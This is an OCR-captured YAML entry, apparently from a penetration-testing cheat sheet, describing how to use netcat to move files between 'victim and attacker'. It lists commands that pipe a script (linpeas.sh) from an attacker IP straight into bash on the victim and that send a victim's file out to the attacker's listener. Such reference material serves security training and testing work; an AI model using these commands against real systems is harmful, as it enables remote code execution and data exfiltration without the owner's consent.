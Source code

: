 ```yaml
---
description: |
  The Netcat (nc) command is a command-line utility for reading and writing data between two computer networks. Which can be used to transfer files between victim and attacker.

  Command Reference:

  	File to copy: linpeas.sh

    Copy from attacker to victim
      nc -lvnp 9001 < linpeas.sh (attacker)
      nc 10.10.21.14 9001 | bash (victim)
    Copy from victim to attacker
      nc 10.10.21.14 9001 < file.txt (victim)
      nc -lvnp 9001 > file.txt (attacker)


command: |
  nc -lvnp 9001 < linpeas.sh
items:
  - Shell
services:

OS:
  - Windows
  - Linux
attack_types:
  - General
references:
  - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
  - https://linux.die.net/man/1/nc
---
```

